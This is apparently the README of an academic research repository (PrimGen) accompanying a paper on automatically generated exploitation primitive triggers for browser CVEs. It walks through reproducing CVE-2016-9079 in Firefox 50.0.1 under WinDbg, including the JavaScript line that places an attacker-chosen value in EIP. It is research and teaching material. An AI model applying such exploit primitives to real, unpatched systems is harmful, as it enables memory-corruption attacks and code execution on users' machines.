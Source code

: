 # PrimGen

In many cases, the given input which triggers a vulnerability and crashes a process 
does not enter an exploitable state. In our paper we discuss on what we can automate 
in a scalable fashion. How challenging can it be than tackling the problem for browsers? 

This repository contains data we presented in our paper:

https://www.syssec.ruhr-uni-bochum.de/research/publications/TABE/

Code will follow :)

# Structure

```
  |=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=|
  |     CVE      | binary name | version info   |
  |=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=|
  |CVE-2014-0322 | mshtml.dll  | 10.0.9200.16384| 
  |CVE-2014-1513 | mozjs.dll   | 27.0           |
  |CVE-2016-1960 | xul.dll     | 44.0.2.5884    |    
  |CVE-2016-2819 | xul.dll     | 46.0.1.5966    |    
  |CVE-2016-9079 | xul.dll     | 50.0.1.6171    |    
  |CVE-2014-3176 | chrome      | 35.0.1916.153  | 
  |=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=|
```

Each CVE folder contains the vulnerable dll file and *EPTs (Exploitation Primitive Trigger)* (see paper) which drives the execution into desired sinks.

The start/end parts of the automatically generated code are marked as follows:

```
//--- GENERATED PART START ---
.... generated js code .... 
//--- GENERATED PART END ---
```

# Example 

== Verifying EPTs for CVE-2016-9079 ==

== Tested on Windows 10 (x64) in VirtualBox ==
== Target: Mozilla Firefox 50.0.1 32-bit ==

Test with EPT:

&nbsp; &nbsp; *suc_poc_xul_0.html* 
>found in *results/CVE-2016-9079/suc_poc_xul_0.html*

This should drive the exeuction into an *indirect call* which we control.


#### 1) Install target
```
    https://ftp.mozilla.org/pub/firefox/releases/50.0 1/win32/en-US/Firefox%20Setup%2050.0.1.exe
```
#### 2) Install WinDBG
```
    https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/
```

- NOTE: use the *"As a standalone tool set"* method. This saves time and space.

#### 3) Open the target in WinDBG:
- Start WinDbg (X64) (just type windbg in the windows 10 search bar, and
WinDbg (X64) should appear)
- In WinDbg: 
```
   File -> Open Executable -> Choose firefox.exe in the folder
   where it was installed
```
- NOTE: check also the line *"Debug child processes also"*
- Click the *"Open"* button
- Press F5 until Firefox appears (during execution if you see *"int 3"* or
*"ret"* in the debugger press F5)

#### 4) Serve the EPTs via python's build in server (or choose a method of your liking):

```
   cd into "results/CVE-2016-9079"
   start the server: 
      $ python -m SimpleHTTPServer 8080
```

#### 5) Check an EPT in target:
- Browse to your server address and open *suc_poc_xul_0.html* (for example)

- The browser should freeze (and crash) and you should see a similar
output like the following in the debugger window:

```
(634.6e0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** ERROR: Symbol file could not be found.  Defaulted to export symbols
for C:\Program Files (x86)\Mozilla_Firefox_x86_50.0.1\xul.dll -
30300220 0000            add     byte ptr [eax],al
ds:002b:30302f74=00
```

&#10233; EIP gets set to **0x30300220** and the data at that address is interpreted 
as code (crash due to DEP violation).
The **GENERATED PART** in the html file sets the memory such that a path is executed until EIP (the wanted *exploitation primitive*) is set.

Note the last line in GENERATED PART of *suc_poc_xul_0.html*:

```javascript
heap_block[offset/4 + 0x30ac/4] = object_target_address +0x220; 
// 0x20acL -> 0x30acL (0x138L)
```

is the value which sets EIP.

In the html file you can see that
```javascript
object_target_address = 0x30300000
```

> object_target_address + 0x220 = 0x30300220

We successfully drive the execution into this primitive with an address
of our choice. In this case we set it back into an object field.

You can change the line (54) to

```javascript
heap_block[offset/4 + 0x30ac/4] = 0x41414141
```
to get the value 0x41414141 into EIP.

Then the debugger should crash with EIP set to 0x41414141.